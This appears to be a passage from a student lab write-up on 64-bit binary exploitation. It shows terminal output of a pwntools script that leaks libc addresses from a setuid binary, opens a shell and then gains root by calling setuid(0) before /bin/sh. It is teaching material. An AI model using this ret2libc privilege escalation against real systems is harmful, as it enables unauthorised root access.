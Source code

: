 ```sh
┌──(student㉿kali)-[~/Desktop/assign2/exploit]
└─$ python3 exploit64.py
[*] '/home/student/Desktop/assign2/app/vuln64'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/student/Desktop/assign2/app/vuln64': pid 1447
[*] Loaded 14 cached gadgets for '../app/vuln64'
/home/student/Desktop/assign2/exploit/exploit64.py:29: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  puts = u64(p.recvuntil("\n").rstrip().ljust(8, b"\x00"))
[*] leaked puts@GLIBC found: 0x7fbb93a5a5f0
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc base address: 0x7fbb939e4000
[*] Switching to interactive mode
Press Enter to return...
𥥓\xbb\x7f
This is an admin tools to run programs with elevated privileges
Press Enter to return...
$ 
$ id
uid=1000(student) gid=1000(student) groups=1000(student),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),133(scanner),141(kaboxer)
$ whoami
student

```

## Gain root shell
To curcumvent this, we call the setuid() function before /bin/sh and set the UID to 0. Finally, we have the UID of 0 (root) when executing our exploit. 

```sh
This is an admin tools to run programs with elevated privileges
Press Enter to return...
$ id
$ whoami
root
$ id
uid=0(root) gid=1000(student) groups=1000(student),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),133(scanner),141(kaboxer)

```
